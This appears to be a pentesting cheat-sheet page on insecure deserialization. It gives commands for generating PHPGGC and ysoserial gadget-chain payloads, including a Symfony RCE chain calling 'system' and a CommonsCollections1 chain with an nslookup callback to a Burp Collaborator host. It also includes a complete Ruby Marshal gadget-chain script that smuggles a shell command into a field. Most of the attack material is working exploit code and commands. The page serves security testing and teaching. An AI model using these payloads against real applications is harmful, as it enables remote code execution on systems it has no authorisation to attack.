 ```yaml
---
title: Insecure Deserialization
description: Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.
badge: Web
---
```



## PHP

### PHP's Serialized objects format

### PHPGGC

PGP Generic Gadget Chains (PHPGGC)

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
docker build -t {{ image-tag phpggc }} "https://github.com/ambionics/phpggc.git#master"
```

</template>
<template v-slot:cli>

> PHP >= 5.6 is required to run PHPGGC.

```bash
git clone https://github.com/ambionics/phpggc.git phpgcc
```

The executable will be at `${PWD}/phpgcc/phpgcc`. It is advisable to add it to your path

</template>
</smart-tabs>

#### Usage

You can list the available gadgets with phpggc -l:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -l
```

</template>
<template v-slot:cli>

```bash
phpggc  -l
```

</template>
</smart-tabs>

Usually this gadget chains ask you to specify a function to be called and arguments. Typically you will be going for RCEs, so here is an example using the `system` function:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -b "{{ gadget-chain Symfony/RCE4 }}" "system" "{{ payload id }}" | clip.exe
```

</template>
<template v-slot:cli>

```bash
phpggc -b "{{ gadget-chain Symfony/RCE4 }}" "system" "{{ payload id }}" | clip.exe
```

</template>
</smart-tabs>

## Java

### Ysoserial

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
docker build -t {{ image-tag ysoserial }} "https://github.com/frohoff/ysoserial.git#master"
```

</template>
<template v-slot:cli>

Download the latest `ysoserial.jar` from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

</template>
</smart-tabs>

#### Usage

List the possible gadget chains with no arguments:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run -it ysoserial
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar
```

</template>
</smart-tabs>

Generate a serialized object to exploit your target:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run -it ysoserial "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}"
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}"
```

</template>
</smart-tabs>

The objects will likely be sent on base64 or similar formats instad of using the bytes directly. For this cases `base64 -w 0` is your friend as it will generate base64 in just one line:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run -it ysoserial "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}" | base64 -w 0
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}" | base64 -w 0
```

</template>
</smart-tabs>

You will likely want to test a bunch of gadget chains with Burp's intruder or a script. The following script will help you to create a list with a sample of every serializated exploit:

> TODO: Finish implementing the script


### Using custom gadget chains

If you got access to some source code, you might want to develop your own gadget chain. The following snippet can be used as an example of how to serialize and deserialize objects in Java:

```java[Main.java]
import data.Foo;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        Foo originalObject = new Foo("str", 123);

        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        Foo deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized data str: " + deserializedObject.str + ", num: " + deserializedObject.num);
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```


## Ruby

### Ruby 2.X deserialization RCE

Therre is a known gadget chain that achieves RCE on Ruby applications. The requsites are as follows:
1. The ActiveSupport gem **must** be installed and loaded.
2. ERB from the standard library **must** be loaded (_which Ruby does not load by default_).
3. After deserialization, a method that does not exist must be called on the deserialized object.

> While these pre-requisites will almost certainly be fulfilled in the context of any Ruby on Rails web application, they are rarely fulfilled by other Ruby applications.

```ruby[deserialzationRORexploit.rb]
#!/usr/bin/env ruby

class Gem::StubSpecification
	def initialize; end
end

stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|{{ payload whoami }} 1>&2")

puts "STEP n"
stub_specification.name rescue nil
puts

class Gem::Source::SpecificFile
	def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts

$dependency_list = Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts

class Gem::Requirement
	def marshal_dump
		[$dependency_list]
	end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts

puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
	pipe.print payload
	pipe.close_write
	puts pipe.gets
	puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts
require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```